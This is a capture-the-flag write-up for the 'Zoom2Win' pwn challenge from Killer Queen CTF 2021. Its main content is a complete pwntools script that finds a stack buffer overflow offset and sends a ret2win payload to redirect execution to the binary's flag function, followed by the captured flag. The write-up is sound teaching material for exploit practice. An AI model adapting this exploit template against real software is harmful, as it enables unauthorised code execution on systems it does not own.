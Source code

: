 ```yaml
---
name: Zoom2Win (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Zoom2Win (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Zoom2Win

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=707s "Killer Queen 2021: Zoom2Win")

## Challenge Description

> What would CTFs be without our favorite ret2win

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_eip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    eip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4))
    info('located EIP offset at {a}'.format(a=eip_offset))
    # Return the EIP offset
    return eip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './zoom2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP offset
offset = find_eip(cyclic(100))

ret = 0x40101a  # Ret gadget from ropper (stack alignment)

# Start program
io = start()

# Build the payload
payload = flat({offset: [ret, elf.symbols.flag]})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline(payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```
{% endcode %}

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
